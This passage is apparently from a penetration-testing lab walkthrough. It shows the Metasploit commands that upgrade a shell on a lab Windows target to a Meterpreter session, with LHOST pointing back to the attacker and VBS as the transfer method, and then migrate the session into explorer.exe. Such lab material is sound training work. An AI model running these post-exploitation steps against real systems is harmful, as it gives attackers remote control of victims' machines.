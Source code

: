 And we currently have access to the target system through a simple command shell session. And we currently have access as the user student.

```
whoami
hostname
```

Before we move forward, I want to migrate this command shell session to a meterpreter session.

`Ctrl+z`: put this in the background or type in `background`.

```
search shell_to
use post/multi/manage/shell_to_meterpreter # use 0
show options
set LHOST eth1
set SESSION 1
```

If we show advanced, we need to set an additional option that is under WIN_TRANSFER. Instead of setting the transfer method to PowerShell, we want to set that to visual basic.

```
show advanced
set WIN_TRANSFER VBS
exploit
```

You'll receive a meterpreter session.

```
sessions
sessions 2
```

```
meterpreter > sysinfo
```

The operating system architecture is 64 bit. And our meterpreter session is 32 bit. We can migrate to a 64 bit process.

```
meterpreter > ps
```

We can migrate to explore.exe. It's only displaying the privileges associated with the user that we currently have access to for specific processes. And the rest of the processes, that means are currently running with privileges of other users or `NT AUTHORITY\SYSTEM` or service privileges. And that means we cannot migrate to them. 

```
3624 3292 explorer.exe x64 2 ATTACKDEFENSE\student C:\Windows\explorer.exe
```

It's going to migrate into the explorer.exe process for stability.

```
meterpreter > migrate 3624
meterpreter > getuid
```
